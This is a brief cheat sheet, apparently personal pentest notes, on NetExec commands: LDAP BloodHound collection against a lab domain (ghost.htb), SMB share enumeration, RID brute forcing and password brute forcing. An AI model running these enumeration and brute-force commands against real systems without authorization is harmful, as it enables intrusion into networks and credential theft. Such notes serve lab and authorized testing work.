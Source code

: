 Updated version for [[CrackMapExec]]
# LDAP
``` shell-session
$ nxc ldap 10.10.11.24 -d ghost.htb -u '' --use-kcache --bloodhound --kdcHost DC01.ghost.htb --dns-server 10.10.11.24 -c All
```
# SMB
```shell-session
$ nxc smb <IP> -u <username> -p <password> --shares
```
## Useful Flags
- `--continue-on-success`: To keep on bruteforcing after a successful login.
- `--local-auth`: If the target is a non-domain joined system.
## List Shares Anonymously
```shell-session
$ nxc smb <IP> -u 'admin' -p '' --shares
```

# Bruteforce
## SMB
### Bruteforce RIDs
```shell-session
$ nxc smb <IP> -u 'guest' -p '' --rid-brute
```
### Bruteforce Username/Passwords
```shell-session
$ nxc smb <IP> -u </path/to/username> -p </path/to/passwords>
```